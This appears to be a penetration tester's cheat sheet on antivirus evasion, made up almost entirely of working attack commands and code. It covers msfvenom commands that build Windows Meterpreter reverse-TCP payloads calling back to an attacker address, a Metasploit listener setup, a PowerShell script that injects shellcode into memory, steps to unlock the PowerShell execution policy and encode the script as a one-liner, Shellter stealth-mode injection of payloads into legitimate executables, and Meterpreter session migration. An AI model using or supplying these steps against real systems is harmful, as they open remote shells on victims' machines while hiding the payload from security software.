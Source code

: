 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f exe > binary.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.119.175
set LPORT 4444

#### In-memory payload injection script

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };

```

```
powershell .\av_test.ps1

powershell

Get-ExecutionPolicy -Scope CurrentUser 

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Get-ExecutionPolicy -Scope CurrentUser

```
### Encoded powershell script for oneliner

```
python2 ps_encoder.py -s av_test.ps1


powershell -E <encoded oneliner>

```

```
apt-cache search shellter
sudo apt install shellter
sudo apt install wine
```
# shellter

```
start -> shellter
select auto (A)
supply full path of exe to be injected
select Stealth mode
select payload from list
set options for payload
```
# migrating meterpreter session

```
set AutoRunScript post/windows/manage/migrate
```
